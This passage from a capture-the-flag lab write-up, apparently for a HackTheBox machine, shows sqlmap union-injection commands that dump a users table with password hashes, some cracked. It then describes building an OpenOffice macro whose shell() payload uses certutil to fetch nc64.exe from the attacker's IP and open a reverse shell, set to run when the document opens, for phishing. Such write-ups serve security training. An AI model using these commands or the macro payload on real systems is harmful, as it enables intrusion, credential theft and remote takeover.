[*] ending @ 18:23:41 /2023-09-25/

```

- Let's enumerate
```
└─$ sqlmap -r sqli.req --batch --level 5 --risk 3 -p id --technique U --dbs
...
[18:24:08] [INFO] fetching database names
available databases [7]:
[*] complain
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] secret
[*] sys

```
```
└─$ sqlmap -r sqli.req --batch --level 5 --risk 3 -p id --technique U -D secret --tables
...
[18:24:31] [INFO] fetching tables for database: 'secret'
Database: secret
[1 table]
+-------+
| users |
+-------+
```
```
└─$ sqlmap -r sqli.req --batch --level 5 --risk 3 -p id --technique U -D secret -T users --dump
...
Database: secret                                                                                                                                                                                                                           
Table: users
[10 entries]
+--------------------------------------------------+----------+
| Password                                         | Username |
+--------------------------------------------------+----------+
| 33903fbcc0b1046a09edfaa0a65e8f8c                 | Kain     |
| 719da165a626b4cf23b626896c213b84                 | Raziel   |
| b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls) | Ariel    |
| d459f76a5eeeed0eca8ab4476c144ac4                 | Dimitri  |
| 370fc3559c9f0bff80543f2e1151c537                 | Magnus   |
| 13fa8abd10eed98d89fd6fc678afaf94                 | Zephon   |
| d322dc36451587ea2994c84c9d9717a1                 | Turel    |
| 33da7a40473c1637f1a2e142f4925194 (popcorn)       | Dumah    |
| dea56e47f1c62c30b83b70eb281a6c39 (barcelona)     | Malek    |
| a6f30815a43f38ec6de95b9a9d74da37 (santiago)      | Moebius  |
+--------------------------------------------------+----------+
```



- We can login to `owa` as `Ariel`, `Kain`, `Magnus`
  - `TPS Reports` - `Please send your weekly TPS reports to management ASAP!` 
    - Possible phishing attack
  - `Security updates` - `The security team has deployed windows defender and PowerShell constrain mode as the default organization security standard.`
    - `Powershell` has [constrained language mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)
  - `Updated software list` - `There has been a change in the allowed software. Help Desk has moved forward with deploying Open Office to everyone.`



- Let's create a `TPS report` with a macros inside
  - First, we save a file as `odt`
  - Then we click `Tools -> Macros -> Edit Macros`
    - We will see our file (`tps_report.odt`) with `Standard` folder, which is empty
    - We create a new macros by visiting `Tools -> Organize Macros -> Basic`, select `Standard` folder under the filename and click `New`
  - Add the payload
    - `shell("cmd /c certutil -urlcache -split -f http://10.10.16.9/nc64.exe C:\programdata\nc.exe && C:\programdata\nc.exe -e cmd 10.10.16.9 6666")`





- Then we have to associate our macros with an event
  - Open `Tools -> Customize -> Events -> Open Document` 
  - Select the macro we created


- Now, launch the listener and send the doc
  - So, I had issues with this part and couldn't complete the task due to browser not supporting pop up windows from `Exchange 2010 OWA`
  - Thus, check the [0xdf](https://0xdf.gitlab.io/2022/04/28/htb-rabbit.html#shell-as-raziel) for the writeup
